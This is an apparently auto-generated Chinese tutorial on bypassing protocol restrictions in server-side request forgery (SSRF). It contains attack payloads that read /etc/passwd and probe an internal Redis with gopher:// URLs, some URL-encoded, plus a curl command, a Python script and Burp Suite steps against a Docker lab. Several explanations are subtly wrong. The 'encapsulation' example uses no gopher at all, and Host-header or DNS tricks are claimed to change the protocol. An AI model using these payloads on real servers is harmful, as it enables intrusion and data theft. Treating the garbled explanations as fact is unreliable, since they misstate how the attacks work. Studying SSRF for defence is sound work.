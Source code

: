 # SSRF协议限制绕过的基本概念

## 1. 概述

SSRF（Server-Side Request Forgery，服务器端请求伪造）是一种常见的Web安全漏洞，攻击者可以利用该漏洞诱使服务器向内部或外部系统发起恶意请求。SSRF协议限制绕过是指攻击者通过某些技巧绕过服务器对请求协议的限制，从而扩大攻击面，访问原本受限的资源。

## 2. 基本原理

### 2.1 SSRF的基本原理

SSRF漏洞通常发生在服务器端应用程序中，当应用程序接受用户输入的URL并直接发起请求时，如果未对输入进行严格的验证和过滤，攻击者可以构造恶意URL，使服务器向内部或外部系统发起请求。

### 2.2 协议限制绕过的基本原理

服务器通常会对允许的协议进行限制，例如只允许HTTP或HTTPS协议。协议限制绕过是指攻击者通过某些技巧，绕过这些限制，使用其他协议（如file、gopher、dict等）发起请求，从而访问受限资源或执行敏感操作。

## 3. 类型和危害

### 3.1 类型

1. **协议重定向**：通过URL重定向或DNS重定向，将请求从允许的协议重定向到其他协议。
2. **协议混淆**：通过混淆协议标识符，使服务器误认为请求使用的是允许的协议。
3. **协议封装**：将其他协议封装在允许的协议中，例如将gopher协议封装在HTTP请求中。

### 3.2 危害

1. **内部网络探测**：攻击者可以利用SSRF协议限制绕过，探测内部网络的拓扑结构和敏感信息。
2. **敏感数据泄露**：通过访问内部系统的文件或服务，泄露敏感数据。
3. **远程代码执行**：某些协议（如gopher）可以用于执行远程代码，进一步扩大攻击范围。

## 4. 技术原理解析

### 4.1 协议重定向

攻击者可以通过构造一个URL，使其在服务器端发起请求时发生重定向，从而绕过协议限制。例如，攻击者可以构造一个HTTP URL，该URL在服务器端发起请求时重定向到file协议，从而访问本地文件。

```http
http://example.com/redirect?url=file:///etc/passwd
```

### 4.2 协议混淆

攻击者可以通过混淆协议标识符，使服务器误认为请求使用的是允许的协议。例如，攻击者可以构造一个URL，使用`http://`前缀，但实际上使用的是`gopher`协议。

```http
http://example.com/?url=gopher://internal-server:6379/_INFO
```

### 4.3 协议封装

攻击者可以将其他协议封装在允许的协议中，例如将gopher协议封装在HTTP请求中。通过这种方式，攻击者可以绕过服务器对gopher协议的限制。

```http
http://example.com/?url=http://internal-server:6379/_INFO
```

## 5. 变种和高级利用技巧

### 5.1 DNS重定向

攻击者可以通过控制DNS解析，将请求重定向到其他协议。例如，攻击者可以构造一个URL，使其在DNS解析时指向一个内部IP地址，从而绕过协议限制。

```http
http://attacker-controlled-domain.com/resource
```

### 5.2 URL编码

攻击者可以通过URL编码混淆协议标识符，使服务器误认为请求使用的是允许的协议。例如，攻击者可以将`gopher`协议编码为`%67%6f%70%68%65%72`，从而绕过服务器对gopher协议的限制。

```http
http://example.com/?url=%67%6f%70%68%65%72://internal-server:6379/_INFO
```

### 5.3 利用HTTP头

攻击者可以通过修改HTTP头，绕过服务器对协议的限制。例如，攻击者可以构造一个HTTP请求，通过修改`Host`头，使服务器误认为请求使用的是允许的协议。

```http
GET /resource HTTP/1.1
Host: internal-server:6379
```

## 6. 攻击步骤和实验环境搭建指南

### 6.1 实验环境搭建

1. **安装Docker**：确保系统中已安装Docker。
2. **拉取SSRF漏洞镜像**：使用Docker拉取一个包含SSRF漏洞的镜像。

```bash
docker pull vulhub/ssrf:latest
```

3. **启动容器**：启动SSRF漏洞容器。

```bash
docker run -d -p 8080:80 vulhub/ssrf:latest
```

4. **访问漏洞应用**：在浏览器中访问`http://localhost:8080`，确认应用正常运行。

### 6.2 攻击步骤

1. **构造恶意URL**：构造一个恶意URL，尝试绕过协议限制。

```http
http://localhost:8080/?url=file:///etc/passwd
```

2. **观察响应**：观察服务器的响应，确认是否成功访问了`/etc/passwd`文件。

3. **尝试其他协议**：尝试使用其他协议（如gopher、dict等），进一步扩大攻击范围。

```http
http://localhost:8080/?url=gopher://internal-server:6379/_INFO
```

4. **利用DNS重定向**：尝试通过DNS重定向绕过协议限制。

```http
http://attacker-controlled-domain.com/resource
```

5. **利用URL编码**：尝试通过URL编码混淆协议标识符。

```http
http://localhost:8080/?url=%67%6f%70%68%65%72://internal-server:6379/_INFO
```

6. **利用HTTP头**：尝试通过修改HTTP头绕过协议限制。

```http
GET /resource HTTP/1.1
Host: internal-server:6379
```

## 7. 实际命令、代码或工具使用说明

### 7.1 curl命令

使用`curl`命令发起SSRF攻击，尝试绕过协议限制。

```bash
curl "http://localhost:8080/?url=file:///etc/passwd"
```

### 7.2 Python脚本

使用Python脚本发起SSRF攻击，尝试绕过协议限制。

```python
import requests

url = "http://localhost:8080/?url=file:///etc/passwd"
response = requests.get(url)
print(response.text)
```

### 7.3 Burp Suite

使用Burp Suite拦截HTTP请求，修改请求参数，尝试绕过协议限制。

1. 启动Burp Suite，配置浏览器代理。
2. 访问`http://localhost:8080`，拦截请求。
3. 修改请求参数，尝试绕过协议限制。

```http
GET /?url=file:///etc/passwd HTTP/1.1
Host: localhost:8080
```

4. 观察响应，确认是否成功访问了`/etc/passwd`文件。

## 8. 总结

SSRF协议限制绕过是一种常见的Web安全漏洞，攻击者可以通过协议重定向、协议混淆、协议封装等技巧，绕过服务器对请求协议的限制，从而扩大攻击面，访问原本受限的资源。通过深入理解SSRF协议限制绕过的基本原理和高级利用技巧，可以有效防御此类攻击，保护Web应用的安全。

---

*文档生成时间: 2025-03-12 09:34:14*
